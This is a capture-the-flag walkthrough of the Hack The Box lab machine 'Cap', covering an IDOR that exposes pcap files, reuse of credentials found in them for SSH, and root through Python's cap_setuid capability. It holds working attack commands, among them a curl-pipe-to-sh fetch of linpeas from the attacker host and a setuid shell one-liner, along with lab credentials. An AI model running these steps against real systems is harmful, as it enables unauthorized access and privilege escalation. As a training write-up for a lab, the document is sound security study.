

Link to box: https://app.hackthebox.com/machines/Cap

IP address of target: 10.10.10.245

First, let do the port scanning
Result:

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Let check the website:




Let check other scans by change the id after `/data/`.
When I change the id and Enter, the website redirect me to the dashboard. But I click the Security Snapshot, it route me to the page I want. It's scanning results of other users.

Let check several scanning results.

First with id 1. It's empty
Id 2: just 4 TCP packets. Don't see any interesting thing.

I'm confused with the website url. I thought I must chane the id after `/data` in the web url. But no.

The actual download pcap url is of Download button.

I must check the web source to find the url of the pcap file.

Use this command to download pcap file:
```bash
wget http://10.10.10.245/download/0 -O 0.pcap
```

Filter with http.
Don't see any interest thing in 0.pcap. I realize that there's a form to login.

Let check with ftp:
user: nathan
password: Buck3tH4TF0RM3!

Let login via ssh: successfully.
Got the user flag: f490ca853c4b824accceaafc9de451e7

```bash
sudo -l
Sorry, user nathan may not run sudo on cap.
```

Let check the suid (Comment: linpeas.sh script will help me with this)
```bash
find / -perm -4000 2>/dev/null
```

Results:
```
/usr/bin/umount         NO
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/12398/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper        NO
/snap/core18/2066/usr/lib/openssh/ssh-keysign       NO
/snap/core18/2074/bin/mount
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper        NO
/snap/core18/2074/usr/lib/openssh/ssh-keysign       NO
```

Found this vulnerability with snap-confine:
https://github.com/deeexcee-io/CVE-2021-44731-snap-confine-SUID

Open http server on my Kali Linux machine:
```bash
python3 -m http.server 80
```

set up netcat listening:
```bash
nc -lvnp 4447
```

The result when execute the exploit.sh:
```
Vulnerable version found: 2.48.3 at /usr/lib/snapd/snap-confine
Vulnerable version found:  at /snap/snapd/11841/usr/lib/snapd/snap-confine
Vulnerable version found: 2.51.1 at /snap/snapd/12398/usr/lib/snapd/snap-confine
Performing actions with a vulnerable version...
Chosen vulnerable version: 2.48.3
ln: failed to create hard link './snap-confine' => '/usr/lib/snapd/snap-confine': Operation not permitted
aa-exec: ERROR: Failed to execute "./snap-confine": No such file or directory
```

The vulnerable version found -> maybe I need to modify a bit.

```bash
$ ln -i /usr/lib/snapd/snap-confine ./
ln: failed to create hard link './snap-confine' => '/usr/lib/snapd/snap-confine': Operation not permitted
$ ln -i /snap/snapd/11841/usr/lib/snapd/snap-confine ./
ln: failed to create hard link './snap-confine' => '/snap/snapd/11841/usr/lib/snapd/snap-confine': Invalid cross-device link
$ ln -i /snap/snapd/12398/usr/lib/snapd/snap-confine ./
ln: failed to create hard link './snap-confine' => '/snap/snapd/12398/usr/lib/snapd/snap-confine': Invalid cross-device link
```

Three files cannot be created a hard link. All three files are wrong answer. The hint said I should run the linPeas.

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh  download to my Kali Linux.
```

Execute on target machine:
```bash
curl -L http://10.10.14.96/linpeas.sh | sh
```

This is information I need:
```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Another result from getcap command:
```
getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The `/usr/bin/python3.8` is the vulnerable binary.

Follow this instruction: https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/

Execute this command to get root privileges:
```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Exploited Cap machine successfully.